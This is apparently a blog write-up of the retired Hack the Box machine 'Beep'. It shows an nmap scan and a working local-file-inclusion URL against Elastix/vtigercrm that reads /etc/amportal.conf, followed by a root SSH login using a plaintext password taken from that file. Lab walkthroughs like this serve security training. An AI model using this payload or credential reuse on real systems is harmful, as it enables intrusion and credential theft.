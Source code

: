 ```yaml
---
layout: post
title: "Beep"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Beep from Hack the Box.

<hr>
### Nmap scan
```
nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.7

Nmap scan report for 10.10.10.7
Host is up (0.014s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS USER AUTH-RESP-CODE EXPIRE(NEVER) TOP RESP-CODES PIPELINING APOP UIDL IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE RIGHTS=kxte UNSELECT SORT QUOTA STARTTLS LISTEXT X-NETSCAPE OK IMAP4rev1 IMAP4 NAMESPACE NO SORT=MODSEQ LIST-SUBSCRIBED UIDPLUS URLAUTHA0001 CONDSTORE IDLE THREAD=REFERENCES RENAME ACL ANNOTATEMORE Completed ID BINARY MULTIAPPEND THREAD=ORDEREDSUBJECT CHILDREN ATOMIC MAILBOX-REFERRALS
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-18T05:31:35+00:00; -10s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 18 15:34:20 2020 -- 1 IP address (1 host up) scanned in 364.86 seconds
```

http is open on port on 80 let's have a look.

<hr>

### Web Enumeration

Browsing to port 80 redirects to port 443

Elastix is running

Elastix is vulnerable to LFI (view source to make it readable)<br>
`https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

![](\images\htb\beep\1.png)<br><br>


<hr>

### Root

Always try the simplest things first it could be a quick win<br>
    ```
    ssh root@10.10.10.7<br>
    password: jEhdIekWmdjE
    ```
![](\images\htb\beep\2.png)<br><br>
